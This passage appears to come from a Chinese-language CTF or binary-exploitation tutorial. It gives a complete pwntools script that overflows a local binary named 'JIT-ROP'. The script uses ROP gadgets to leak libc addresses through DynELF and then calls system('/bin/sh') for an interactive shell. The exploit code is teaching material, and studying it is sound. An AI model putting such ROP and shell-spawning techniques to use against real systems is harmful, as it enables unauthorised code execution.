     在 0x400880 的位置, 将会执行调用 `read(0, bss_addr, 8)` 从控制台向 bss_addr 处读取 8 字节. 最后通过 `system(bss_addr)即 system("/bin/sh")` 调用 shell.

4. 完整程序

    ~~~python
    from pwn import *
    
    elf = ELF('./JIT-ROP')
    
    plt_write = elf.symbols['write']
    got_write = elf.got['write']
    got_read = elf.got['read']
    
    main_func = 0x4007cd
    
    gadget_p4 = 0x000000000040089c
    bss_addr = 0x0000000000601070
    
    def leak(address):
        payload = 'a'*24 + p64(0x40089C) + p64(0x40089A) \
                + p64(0) + p64(1) \
                + p64(got_write) + p64(1024) + p64(address) + p64(1)
        payload += p64(0x400880)
        payload += "\x00"*56
        payload += p64(0x4007cd)
        p.send(payload)
    
        data = p.recv(1024)
        whatrecv = p.recv(43)
        return data
    
    p = process('./JIT-ROP')
    start = p.recvuntil('\n')
    print('start:',start)
    
    d = DynELF(leak, elf=ELF('./JIT-ROP'))
    system_addr = d.lookup('system', 'libc')
    log.info("system_addr=" + hex(system_addr))
    
    payload = "a"*24 + p64(0x40089C) + p64(0x40089A) \
            + p64(0) + p64(1) \
            + p64(got_read) + p64(8) + p64(bss_addr) + p64(0)
    payload += p64(0x400880)
    payload += "\x00"*56
    payload += p64(0x4008a3)
    payload += p64(bss_addr)
    payload += p64(system_addr)
    p.send(payload)
    p.send("/bin/sh\x00")
    
    p.interactive()
    ~~~



### 2.3	测试
